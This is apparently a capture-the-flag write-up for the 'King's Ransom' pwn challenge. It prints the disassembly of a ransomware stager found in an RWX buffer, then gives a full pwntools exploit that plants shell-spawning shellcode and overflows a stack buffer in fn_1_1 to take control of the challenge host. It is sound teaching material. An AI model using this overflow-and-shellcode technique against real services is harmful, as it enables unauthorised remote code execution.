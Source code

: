 ## King's Ransom

### Background

> A vulnerable service with your "bank account" information running on the target system. Too bad it has already been exploited by a piece of ransomware. The ransomware took over the target, encrypted some files on the file system, and resumed the executive loop.
> 
> Follow the footsteps.

We are provided with two files: challenge binary and libc.so.

### Analysis

The background information gives us an important detail: this is a vulnerable service that can be exploited. We need to first find a way to exploit the service ourselves, then we can figure out what the attacker did post-exploitation.

The main loops reads in a packet of data then calls a function pointer based on fields in the packet. The packet format is:

```
struct pkt {
	uint8_t magic0;
	uint8_t magic1;
	uint16_t length;
	uint16_t cksum;
	uint8_t fn0;
	uint8_t fn1;
	uint8_t data[];
}
```

The `fn0` and `fn1` fields determine which function pointer is called from the table. The 4x4 table contains 16 function pointers, which are set using `set_fn` at `0x4015DB`. By looking at cross references to the table and to `set_fn`, we find that there are 8 possible functions: `fn_0_0`, `fn_1_0`, `fn_1_1`, `fn_2_0`, `fn_2_1`, `fn_3_0`, `fn_3_3`, and `fn_default`.

Packets are created by `encode_data` at `0x40139B` and are parsed by `decode_data` at `0x401445`. We also see that there is a function that reads in two flags (flag1.txt and bank/flag2.txt) and runs `fn_2_1` on the each flag.

`fn_2_0` reads data from a global buffer that was mapped at `0x12800000` with RWX permissions. `fn_2_1` writes data to the same global buffer. For example, the function that read in the two flags stored them in the global buffer at indices 0 and 32, respectively.

If we read from the global buffer using `fn_2_0`, instead of flags, we get back binary data that looks suspiciously like shellcode:

```
0x0000000000000000:  F3 0F 1E FA                endbr64 
0x0000000000000004:  55                         push    rbp
0x0000000000000005:  48 89 E5                   mov     rbp, rsp
0x0000000000000008:  48 83 EC 30                sub     rsp, 0x30
0x000000000000000c:  B8 40 40 40 00             mov     eax, 0x404040
0x0000000000000011:  48 8B 00                   mov     rax, qword ptr [rax]
0x0000000000000014:  48 89 45 F8                mov     qword ptr [rbp - 8], rax
0x0000000000000018:  BA 30 11 11 00             mov     edx, 0x111130
0x000000000000001d:  48 8B 45 F8                mov     rax, qword ptr [rbp - 8]
0x0000000000000021:  48 29 D0                   sub     rax, rdx
0x0000000000000024:  48 89 45 F0                mov     qword ptr [rbp - 0x10], rax
0x0000000000000028:  48 8B 45 F8                mov     rax, qword ptr [rbp - 8]
0x000000000000002c:  48 89 45 E8                mov     qword ptr [rbp - 0x18], rax
0x0000000000000030:  BA 20 BA 11 00             mov     edx, 0x11ba20
0x0000000000000035:  48 8B 45 F0                mov     rax, qword ptr [rbp - 0x10]
0x0000000000000039:  48 01 D0                   add     rax, rdx
0x000000000000003c:  48 89 45 E0                mov     qword ptr [rbp - 0x20], rax
0x0000000000000040:  48 8B 45 E0                mov     rax, qword ptr [rbp - 0x20]
0x0000000000000044:  41 B9 00 00 00 00          mov     r9d, 0
0x000000000000004a:  41 B8 00 00 00 00          mov     r8d, 0
0x0000000000000050:  B9 22 00 00 00             mov     ecx, 0x22
0x0000000000000055:  BA 07 00 00 00             mov     edx, 7
0x000000000000005a:  BE 00 10 00 00             mov     esi, 0x1000
0x000000000000005f:  BF 00 00 00 00             mov     edi, 0
0x0000000000000064:  FF D0                      call    rax
0x0000000000000066:  48 89 45 D8                mov     qword ptr [rbp - 0x28], rax
0x000000000000006a:  48 C7 45 D0 00 00 00 00    mov     qword ptr [rbp - 0x30], 0
0x0000000000000072:  48 8D 45 D0                lea     rax, [rbp - 0x30]
0x0000000000000076:  48 8B 4D E8                mov     rcx, qword ptr [rbp - 0x18]
0x000000000000007a:  BA 04 00 00 00             mov     edx, 4
0x000000000000007f:  48 89 C6                   mov     rsi, rax
0x0000000000000082:  BF 00 00 00 00             mov     edi, 0
0x0000000000000087:  FF D1                      call    rcx
0x0000000000000089:  48 8B 55 D0                mov     rdx, qword ptr [rbp - 0x30]
0x000000000000008d:  48 8B 45 D8                mov     rax, qword ptr [rbp - 0x28]
0x0000000000000091:  48 8B 4D E8                mov     rcx, qword ptr [rbp - 0x18]
0x0000000000000095:  48 89 C6                   mov     rsi, rax
0x0000000000000098:  BF 00 00 00 00             mov     edi, 0
0x000000000000009d:  FF D1                      call    rcx
0x000000000000009f:  48 8B 45 D8                mov     rax, qword ptr [rbp - 0x28]
0x00000000000000a3:  FF D0                      call    rax
0x00000000000000a5:  C9                         leave   
0x00000000000000a6:  C3                         ret    
```

This shellcode reads the GOT entry for `read` and uses it to figure the base address of `libc.so` which was provided to us. The shellcode does not give us very much information since it is a stager that allocates another RWX memory page, reads in additional shellcode, and executes it.

While the shellcode is a dead-end for now, it does tell us that there should be a vulnerability that allows us to execute shellcode at address `0x12800000`.

### Solution

After looking through each of the functions that we can run, we notice that the `decode_data` function will blindly copy data into the destination buffer. While this function is usually called by a wrapper function that uses `malloc` to allocate a large enough buffer, `fn_1_1` calls it directly.

```
int __fastcall fn_1_1(pkt_t *a1)
{
  int v1; // xmm0_4
  int v2; // xmm0_4
  int v3; // xmm0_4
  int v5[3]; // [rsp+14h] [rbp-Ch] BYREF

  decode_data(a1, v5);
  *(float *)&v1 = 0.01 * *(float *)v5 + *(float *)&dword_404090;
  dword_404090 = v1;
  *(float *)&v2 = 0.01 * *(float *)&v5[1] + *(float *)&dword_404094;
  dword_404094 = v2;
  *(float *)&v3 = 0.01 * *(float *)&v5[2] + *(float *)&dword_404098;
  dword_404098 = v3;
  return 1;
}
```

If we send a packet with a large amount of data, it will overflow the `v5` stack array and we can control the return address.

Exploitation is very simple. First we store some shellcode on the RWX page using `fn_2_1`. Then we run `fn_1_1` and overflow the stack buffer. We can use pwntools to build shellcode that gives us shell:

```
from pwn import *
context.arch = 'amd64'
r = remote('wealthy-rock.satellitesabove.me', 5010)

r.recvuntil('Ticket please:\n')
r.sendline('ticket{...}')

r.recvuntil('Starting up Service on tcp:')
host, port = r.recvuntil(b'\n').strip().split(b':')

r2 = remote(host, int(port))

def cksum(s):
    x = 0x1d0f
    for c in s:
        x ^= c << 8
        for n in range(8):
            if x & 0x8000:
                x = (2 * x) ^ 0xa02b
            else:
                x = 2 * x
    return x & 0xffff

fn0 = 2
fn1 = 1
data = p16(0) + p16(64) + asm(shellcraft.amd64.linux.sh())
r2.send(p8(0x55) + p8(0xaa) + p16(len(data)) + p16(cksum(data)) + p8(fn0) + p8(fn1) + data)

fn0 = 1
fn1 = 1
data = b'A' * 12 + p64(0) + p64(0x12800000)
r2.send(p8(0x55) + p8(0xaa) + p16(len(data)) + p16(cksum(data)) + p8(fn0) + p8(fn1) + data)
r2.interactive()
```

Once we have a shell, we can `cat flag1.txt` and get the flag.